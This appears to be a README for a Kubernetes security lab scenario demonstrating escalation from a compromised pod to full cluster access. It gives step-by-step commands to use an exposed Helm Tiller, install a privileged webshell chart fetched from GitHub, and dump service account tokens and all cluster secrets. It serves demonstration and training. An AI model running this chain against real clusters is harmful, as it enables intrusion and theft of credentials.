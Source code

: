 # Compromised Container

This scenario demonstrates the potential for privilege escalation and lateral movement as a result of a pod compromise in a Kubernetes cluster with commonly-found configurations leading to full cluster access.

## Demo
[![asciicast](https://asciinema.org/a/F8NCWjE7Akhtcj8ZUePZmiF8E.svg)](https://asciinema.org/a/F8NCWjE7Akhtcj8ZUePZmiF8E)

NOTE: This scenario will run a compromised container with root access, and it set for demo purposes only. We strongly recommend **NOT RUNNING IT ON A LIVE CLUSTER**

## pre-requisites 
Make sure your cluster is setup following the [instructions here](../env/README.md)

## Lets Hack it

### Setup and install the "compromised container"

1. Apply the yaml located the in compromised-container

```console
kubectl apply -f compromised-container/installation.yaml
```
2. Create a local proxy to reach the "exposed" dashboard service:

```console
kubectl port-forward service/dashboard 8080:8080
```
3. Visit the dashboard by opening http://localhost:8080.
4. Navigate to /webshell and provide the basic auth credentials.

### Look for Helm tiller 

1. Download kubectl 
```console 
export PATH=/tmp:$PATH
cd /tmp; curl -LO https://storage.googleapis.com/kubernetes-release/release/`curl -s https://storage.googleapis.com/kubernetes-release/release/stable.txt`/bin/linux/amd64/kubectl; chmod +x kubectl
```
2. Look for tiller deployment running in `kube-system` namespace 
```console
curl -v tiller-deploy.kube-system:44134
```
3. Download the Helm client binary 
```console
cd /tmp; curl -so helm.tar.gz https://get.helm.sh/helm-v2.16.1-linux-amd64.tar.gz; tar zxvf helm.tar.gz; chmod +x linux-amd64/helm; cp linux-amd64/helm .
```
4. Run `helm ls` to test access to tiller 
```console 
helm version --host=tiller-deploy.kube-system:44134
export HELM_HOST=tiller-deploy.kube-system:44134; helm ls
```

### Deploy webshell workload with elevated privileges to Kubernetes 
1. install privileged workload via Helm
```console
curl -sLO https://github.com/bgeesaman/nginx-test/archive/v1.0.0.tar.gz
helm install v1.0.0.tar.gz
```
2. Access the webshell with curl and run commands in the privileged pod as cluster-admin to get the newly created pod's service account token

```console
curl -XPOST -d "cmd=cat /var/run/secrets/kubernetes.io/serviceaccount/token" nginx-test.default:8080
```
3. Get a list of all secrets in all namespaces
```console
curl -XPOST -d "cmd=kubectl get secrets -A" nginx-test.default:8080
```
4. Get all secrets 
```console
curl -XPOST -d "cmd=kubectl get secrets -A -o yaml" nginx-test.default:8080
```

```console

  ________                        ________                      
 /  _____/_____    _____   ____   \_____  \___  __ ___________  
/   \  ___\__  \  /     \_/ __ \   /   |   \  \/ // __ \_  __ \ 
\    \_\  \/ __ \|  Y Y  \  ___/  /    |    \   /\  ___/|  | \/ 
 \______  (____  /__|_|  /\___  > \_______  /\_/  \___  >__|    
        \/     \/      \/     \/          \/          \/        
```

## Cleanup

To cleanup run 
```console
kubectl delete -f compromised-container/
```